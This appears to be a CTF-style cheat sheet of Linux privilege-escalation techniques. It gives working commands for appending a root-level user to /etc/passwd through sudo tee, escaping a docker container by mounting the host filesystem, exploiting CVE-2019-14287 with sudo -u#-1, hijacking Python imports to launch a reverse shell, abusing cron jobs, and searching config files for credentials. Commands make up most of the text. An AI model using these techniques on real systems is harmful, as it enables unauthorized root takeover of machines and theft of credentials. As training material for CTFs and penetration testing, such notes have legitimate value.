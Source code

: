 - Always use `sudo -l` command ,if there is a user ,you can abuse it for gaing root access ,if there is a service or program go to gtfo bins ,paste the service ,seek for sudo ,follow the instrucrions and you are the root

- If you see a file like `motd.legal-displayed` ,or any file with `motd` text it is most likely your privesc vector ,you can get the exploit from : https://exploit-db.com/exploit/14339

-`routel` to list the services that try to reach specific destinations 

- If you see a file like this `/usr/sbin/checker` that checking if the user is admin, then `export admin=1 | /usr/sbin/checker`

- Breaking docker container : firstly find docker container : `locate .docker` ,then `/tmp/docker ps`  ,finally :`/tmp/docker run -v /:/mnt --rm -it mangoman chroot /mnt sh`

- If you see a output like this from `sudo -l` : `(root) NOPASSWD: /usr/bin/tee` ,you can exploit it like that:

	- `openssl passwd -1 -salt "inferno" "dante"` : (this one will be our user and password)
	- `printf 'inferno:$1$inferno$vA66L6zp5Qks4kxIc3tvn/:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd`
	- The final stet :`su inferno` (passwd=dante)

- Check sudo version ,there might be a vulnerability ,actually ,check all the service that running ,if you stuck ,they will be useful

- If target have a python script that running on another user ,check if that script editable first if not ,then check if that script calling another script or not ,if not ,check if the script using `import` ,if yes than create a script that import command calls (eg:`random,date,time`) embed reverse shell init ,and run the main script.



- You can use auto escalation tools such as **linpeas/exploit suggester/sherlock/powerup** etc.

- If you see an output like this(`(my2user) NOPASSWD : /bin/bash /opt/files/checker.sh`) from `sudo -l` ,you can :
- `sudo -u my2user /bin/bash /opt/files/checker.sh`
OR
- If you can edit the program : go add the line `/bin/bash`

- Use `uname -a` ,get the kernel version ,and look for possible exploits

- If you see `(ALL ,!root) /bin/bash` or `NOPASSWD: ALL` in the result of `sudo -l` then you can escalete your permissions with `sudo -u#-1 /bin/bash` or `sudo -u $USER /bin/bash`

- If you see some kind of output like this `/usr/bin/vi /home/gwendoline/user.txt` in results of `sudo -l` command ,then you can know it's a CVE vulnerability (CVE-2019-14287) You can exploit it with following command `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt` (make it up for the situation)

- You can check crontab via `cat /etc/crontab` ,sometimes there's some programs that scheduled on an exact time ,if you see one ,edit it ,and get your root access

- Finding credentials in .conf files(`find / -type f -name *.conf 2>/dev/null`)

- check *.sudo_as_admin_successful*

- If you getting `sudo: no tty present and no askpass program specified` error ,then 
    `python3 -c 'import pty; pty.spawn("/bin/bash")'`
